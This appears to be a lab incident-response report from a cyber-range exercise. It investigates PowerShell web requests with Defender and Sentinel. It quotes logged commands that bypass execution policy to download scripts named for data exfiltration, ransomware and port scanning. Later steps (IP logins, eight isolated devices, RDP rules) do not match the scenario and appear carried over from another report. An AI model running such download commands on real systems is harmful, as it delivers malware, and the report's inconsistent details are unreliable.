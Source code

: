 <img width="600" src="https://github.com/user-attachments/assets/3139ed02-bf2c-4d30-973e-12dc1063fcba" alt="Incident Response Lifecycle"/>

# Incident Response Report: PowerShell Suspicious Web Request

## Platforms and Languages Leveraged
- Windows 10 Virtual Machines (Microsoft Azure)
- EDR Platform: Microsoft Defender for Endpoint
- Kusto Query Language (KQL)
- Microsoft Sentinel

##  Scenario

Management has raised concerns about potential attempts to download malicious tools or payloads directly within our network. Logs for one of the flagged virtual machined display incidents where PowerShell launched. Microsoft Defender for Endpoint also flagged repeated download attempts from unfamiliar scripts, which also look suspicious. At this stage, it is unclear whether any of the scripts have been successfully downloaded or executed, prompting immediate investigation. The goal is to detect any use of the "Invoke-WebRequest" command - a method that can potentially download or execute external scripts while bypassing detection mechanisms - and to analyze any downloaded scripts or files to mitigate risks of unauthorized access. 

### High-Level Incident Response Plan

- **Check `DeviceProcessEvents`** for any PowerShell executions involving the `Invoke-WebRequest`command and investigate any suspicious download activity.
- **Check `DeviceProcessEvents`** for any successful execution of downloaded scripts to assess potential impact.
- **If applicable, `isolate affected devices`, `block access to malicious domains`, `run an antimalware scan`, and `implement restrictions on PowerShell usage`** to prevent unauthorized script execution.

---

## Steps Taken

### 1. Searched the `DeviceProcessEvents` Table

Searched for instances within the last 24 hours where PowerShell was downloaded using the `Invoke-WebRequest` command for Device: "Windows-Target-1". Identified 24 such incidents, where the following commands were executed: 

a)InitiatingProcessCommandLine
            
        "cmd.exe" /c powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/exfiltratedata.ps1 -OutFile C:\programdata\exfiltratedata.ps1


b)ProcessCommandLine
            
        powershell.exe  -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/exfiltratedata.ps1 -OutFile C:\programdata\exfiltratedata.ps1


The suspicious  web request was triggered on 1 device: "Windows-Target-1 by 1 user, but downloaded 4 different scripts with 4 different commands

 windows-target-1
 powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/eicar.ps1 -OutFile C:\programdata\eicar.ps1
 
 powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/portscan.ps1 -OutFile C:\programdata\portscan.ps1
 
 powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/pwncrypt.ps1 -OutFile C:\programdata\pwncrypt.ps1
 
 powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/exfiltratedata.ps1 -OutFile C:\programdata\exfiltratedata.ps1



**Query used to locate events:**

![image](https://github.com/user-attachments/assets/fd5b08dc-4b2b-4b06-ad0c-24801f09a2ea)

<p>
<img src="https://github.com/user-attachments/assets/f70f72a2-79eb-450a-bb2c-4efcc849507d"  alt="KQL Query Results"/> &emsp; &emsp;
<img src="https://github.com/user-attachments/assets/74e652dd-2033-44ea-aacb-82e787cc2cf6"   alt="KQL Query Results"/>
</p>


---

### 2. Searched the `DeviceProcessEvents` Table a Second Time

Searched for instances where the following scripts within the last 5 hours to see if the malicious IP addresses discovered in Step 1 successfully logged into any devices. No successful logins were detected from these IP addresses.

**Query used to locate events:**

![image](https://github.com/user-attachments/assets/49941831-9220-4af4-8cea-7b20498a80c0)

![image](https://github.com/user-attachments/assets/c7602fa3-db3e-4ef1-aa10-5e8f5e7f79a6)

---

### 3. Isolated the affected devices in Microsoft Defender

All 8 impacted devices were isolated in Microsoft Defender for Endpoint, and an antimalware scan was run to ensure no malware was present.

**Ex. 1: Device: win-vm-grand:**
![image](https://github.com/user-attachments/assets/759080c1-42e8-4875-bae7-c6fef186d571)

---

### 4. Updated NSG(network security group) attached to the virtual machine

The network security group (NSG) rules were updated to block RDP access from the public internet. RDP is now only accessible from authorized home IP addresses to maintain secure remote access. As a result, any RDP attempt from unauthorized IP addresses will be denied by a default deny rule at the bottom of the NSG rule list.

![image](https://github.com/user-attachments/assets/aaef6360-8393-48cd-bd03-2b5deb64321d)

A corporate policy proposal was also submitted to enforce this configuration for all virtual machines moving forward.

---

### 5. Restored impacted virtual machines

Reviewed and completed write-up for incident resolution. Finalized reporting and closed out the incident in Microsoft Sentinel as a true positive.

![image](https://github.com/user-attachments/assets/5e6c7a40-2dba-4bae-b12c-8a943c56c7b7)









